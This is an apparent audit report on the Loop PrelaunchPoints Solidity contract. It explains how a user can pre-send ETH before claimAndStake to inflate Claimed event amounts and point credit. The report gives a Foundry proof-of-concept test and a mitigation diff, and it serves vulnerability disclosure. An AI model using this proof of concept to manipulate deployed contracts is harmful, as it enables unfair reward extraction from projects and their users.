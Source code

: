# Staking users can emit any valued Claimed and StakedVault events, which may disrupt point calculation.
## Impact
Users can send ETH to the contract before calling the claim function or claimAndStake, causing them to be converted to lqETH through the contract, triggering incorrect Claimed and claimAndStake events, which may allow them to earn more points.

## Proof of Concept
The reasons for this issue are:

1. The _claim function converts all ETH in the contract to lqETH.
2. Users can claim tokens other than ETH multiple times.
github:[https://github.com/code-423n4/2024-05-loop/blob/0dc8467ccff27230e7c0530b619524cc8401e22a/src/PrelaunchPoints.sol#L262](https://github.com/code-423n4/2024-05-loop/blob/0dc8467ccff27230e7c0530b619524cc8401e22a/src/PrelaunchPoints.sol#L262)
```solidity
        claimedAmount = address(this).balance;
        lpETH.deposit{value: claimedAmount}(_receiver);
```

Due to the lack of visibility into the specific process of point calculation, the POC can only be reflected in the anomalies of events.

POC:
1. Bob locked 1 token (other than ETH and WETH).
2. During the claim process, Bob twice sent a large amount of ETH (5e18) to the contract before calling the claimAndStake function.
3. Upon inspecting the events, it was discovered that both claimed events had a claimedAmount of 5e18.
```solidity
function testContralEvent() public {
    ERC20 DAI = ERC20(0x6B175474E89094C44Da98b954EedeAC495271d0F);
    prelaunchPoints.allowToken(address(DAI));

    address Bob = makeAddr("Bob");

    uint lockAmount = 100;
    vm.deal(Bob, 10e18);
    deal(address(DAI), Bob, 1);

    vm.startPrank(Bob);
    DAI.approve(address(prelaunchPoints), 1);
    prelaunchPoints.lock(address(DAI), 1, referral);
    assertEq(prelaunchPoints.balances(Bob, address(DAI)), 1);
    vm.warp(1);
    vm.stopPrank();

    prelaunchPoints.setLoopAddresses(address(lpETH), address(lpETHVault));
    vm.warp(
        prelaunchPoints.loopActivation() + prelaunchPoints.TIMELOCK() + 1
    );
    prelaunchPoints.convertAllETH();

    vm.warp(prelaunchPoints.startClaimDate() + 1);

    vm.startPrank(Bob);
    for (uint i = 0; i < 2; i++) {
        bytes memory path = abi.encodePacked(address(DAI), WETH);
        bytes memory data = abi.encodeWithSelector(
            prelaunchPoints.UNI_SELECTOR(),
            path,
            0,
            0,
            address(prelaunchPoints)
        );
        address(prelaunchPoints).call{value: 5e18}("");
        prelaunchPoints.claimAndStake(
            address(DAI),
            0,
            PrelaunchPoints.Exchange.UniswapV3,
            data
        );
    }
    vm.stopPrank();
}
```
## Tools Used
Manual audit,foundry
## Recommended Mitigation Steps
Use the balance obtained from the swap as the input for the deposit.
```solidity
function _fillQuote(
    IERC20 _sellToken,
    uint256 _amount,
    bytes calldata _swapCallData
-    ) internal{
+    ) internal returns(boughtETHAmount){
    // Track our balance of the buyToken to determine how much we've bought.
-        uint256 boughtETHAmount = address(this).balance;
+        boughtETHAmount = address(this).balance;
    require(_sellToken.approve(exchangeProxy, _amount));

    (bool success, ) = payable(exchangeProxy).call{value: 0}(_swapCallData);
    if (!success) {
        revert SwapCallFailed();
    }

    // Use our current buyToken balance to determine how much we've bought.
    boughtETHAmount = address(this).balance - boughtETHAmount;
    emit SwappedTokens(address(_sellToken), _amount, boughtETHAmount);
}

```
```solidity
function _claim(
    address _token,
    address _receiver,
    uint8 _percentage,
    Exchange _exchange,
    bytes calldata _data
) internal returns (uint256 claimedAmount) {
    uint256 userStake = balances[msg.sender][_token];
    if (userStake == 0) {
        revert NothingToClaim();
    }
    if (_token == ETH) {
        claimedAmount = userStake.mulDiv(totalLpETH, totalSupply);
        balances[msg.sender][_token] = 0;
        lpETH.safeTransfer(_receiver, claimedAmount);
    } else {
        uint256 userClaim = (userStake * _percentage) / 100;
        _validateData(_token, userClaim, _exchange, _data);
        balances[msg.sender][_token] = userStake - userClaim;

        // At this point there should not be any ETH in the contract
        // Swap token to ETH
-            _fillQuote(IERC20(_token), userClaim, _data);
+            claimedAmount = _fillQuote(IERC20(_token), userClaim, _data);
        // Convert swapped ETH to lpETH (1 to 1 conversion)
-            claimedAmount = address(this).balance;
        lpETH.deposit{value: claimedAmount}(_receiver);
    }
    emit Claimed(msg.sender, _token, claimedAmount);
}

```